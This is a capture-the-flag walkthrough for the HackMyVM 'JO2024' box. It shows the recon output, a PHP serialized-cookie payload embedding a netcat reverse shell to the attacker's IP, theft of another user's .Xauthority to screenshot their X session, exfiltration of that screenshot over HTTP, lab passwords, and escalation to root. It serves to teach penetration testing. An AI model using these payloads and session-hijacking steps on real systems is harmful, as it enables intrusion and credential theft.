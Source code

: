 ![[JO2024 hackmyvm.jpg]]

This medium challenge box employed a variety of attacks and techniques, including a PHP [[Cookie Serialization]] Attack that leveraged the `preferences.php` file to gain a [[_MOCS/Reverse Shells]]. Once access was obtained as the `www-data` user, the `.Xauthority` file was exploited to capture the `vanity` user's graphical session, enabling the extraction of sensitive data through a screenshot that revealed their password. Following this, privilege escalation techniques were utilized to run a script as root without a password, allowing for further access to protected content. 

**Initial [[Nmap]] scan**
```bash
└─$ nmap -A -sC -p- 192.168.5.103     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 17:56 EDT
Nmap scan report for 192.168.5.103
Host is up (0.0031s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)
|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Paris 2024 Olympic Games
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.20 seconds
```

**Using [[Gobuster]] we discover `preferences.php`**
```bash
└─$ gobuster dir -u http://192.168.5.103 -e -r -x html,htm,asp,aspx,jsp,php,cgi,txt,xml -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.103
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              htm,asp,aspx,php,xml,html,cgi,txt,jsp
[+] Follow Redirect:         true
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
...
http://192.168.5.103/img                  (Status: 200) [Size: 2216]
http://192.168.5.103/index.php            (Status: 200) [Size: 7812]
http://192.168.5.103/index.php            (Status: 200) [Size: 7812]
http://192.168.5.103/preferences.php      (Status: 200) [Size: 3163]
http://192.168.5.103/server-status        (Status: 403) [Size: 278]
Progress: 46140 / 46150 (99.98%)
===============================================================
Finished
===============================================================

```

**Going to the `preferences.php` website:**
![[Pasted image 20240922160626.png]]

**Using `Burp Suite` we use the `Proxy` feature to intercept the traffic when we reload the page:**
![[Pasted image 20240922160847.png]]
**On the far right side of the window we can modify the `Decoded from` to gain a [[Netcat Reverse Shells]] using a PHP [[Cookie Serialization]] Attack:**

>O:15:"UserPreferences":2:{s:8:"language";s:31:"nc 192.168.5.10 9999 -e /bin/sh";s:15:"backgroundColor";s:4:"#ddd";}

>[!note]
>Make sure you replace the IP with your `Kali` IP address. Also the `31` needs to be modified to match the exact length of the value in the `language` field.

**Click `Apply changes` then `Forward`.**

>[!Optional] Optional
>Lets get a [[Better Shell]]
>```bash
>python3 -c 'import pty; pty.spawn("/bin/bash")'
>```

**We notice that the user `vanity` is logged in and using x11 / xwindows**
```bash
www-data@jo2024:/home/vanity$ w
w
 04:24:52 up 14 min,  1 user,  load average: 0.38, 0.27, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vanity   tty7     :0               04:10   14:21   0.00s  0.05s /usr/bin/lxsession -s LXDE -e LXDE
```

**Browse the contents of the vanity user's home folder to discover a "backup" script, which appears to be running every minute as a cronjob:**
```bash
/home/vanity$ cat backup 
#!/bin/bash

SRC="/home/vanity"
DEST="/backup"

rm -rf /backup/{*,.*}

echo "Starting copy..."
find "$SRC" -maxdepth 1 -type f ! -name user.txt | while read srcfile; do
    destfile="$DEST${srcfile#$SRC}"
    mkdir -p "$(dirname "$destfile")"
    dd if="$srcfile" of="$destfile" bs=4M

    md5src=$(md5sum "$srcfile" | cut -d ' ' -f1)
    md5dest=$(md5sum "$destfile" | cut -d ' ' -f1)
    if [[ "$md5src" != "$md5dest" ]]; then
        echo "MD5 mismatch for $srcfile :("
    fi
    chmod 700 "$destfile"

done

echo "Copy complete. All files verified !"
```

**Run a while loop to capture the vanity user's `.Xauthority` file and save it to `/tmp/log`, before the permissions are restricted by the user's backup script:**
```bash
while true; do cat /backup/.Xauthority >> /tmp/log 2>/dev/null;sleep 0.01; done
```

**Set `Xauthority` environment variable to use our copy of the user's `Xauthority` file:**
```bash
export XAUTHORITY=/tmp/log
```

**Take a screenshot of the user's desktop and save it to the `/tmp` folder:**
```bash
cd /tmp
xwd -root -screen -silent -display :0 > screenshot.xwd
```

**Start a local python HTTP server to serve the `/tmp` directory containing the screenshot file:**
```bash
python3 -m http.server 8888
```

**On Kali, use wget to download the screenshot file from the target system:**
```bash
└─$ wget http://192.168.10.101:8888/screenshot.xwd
```

**Install the `convert` tool on Kali, and use it to convert the screenshot file to a .PNG image, and open the image to discover the `vanity` user's password:**
```bash
└─$ sudo apt install graphicsmagick-imagemagick-compat
└─$ convert screenshot.xwd screenshot.png
└─$ open screenshot.png
```

**In the screenshot, we can see that the `vanity` user is viewing a text document with Mousepad, containing the user's password:**

![[Assets/vanity-user-desktop.jpg]]

**We can now login to the system as vanity via SSH, using the credentials `vanity:xd0oITR93KIQDbiD` :**

```bash
ssh vanity@192.168.5.103
```

**Run `sudo -l` to discover that user `vanity` can run a script named `php-server.sh` as root:**
```bash
vanity@jo2024:~$ sudo -l
sudo: unable to resolve host jo2024: Name or service not known
Matching Defaults entries for vanity on jo2024:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vanity may run the following commands on jo2024:
    (ALL : ALL) NOPASSWD: /usr/local/bin/php-server.sh
```

**View the contents of `php-server.sh`, then run the script as root:**
```bash
vanity@jo2024:~$ cat /usr/local/bin/php-server.sh
#!/bin/bash

/usr/bin/php -t /opt -S 0.0.0.0:8000

vanity@jo2024:~$ sudo /usr/local/bin/php-server.sh
```

**Open the web server using the `Burpsuite` web browser, and view the HTTP response for `/get_protected_content.php` to discover a password:**

![[Assets/burpsuite-response-containing-password.jpg]]

**Use this password `LightningBolt123` as the root user's password to gain root access:**
```bash
vanity@jo2024:~$ su root
Password:
root@jo2024:/home/vanity# id
uid=0(root) gid=0(root) groups=0(root)
```


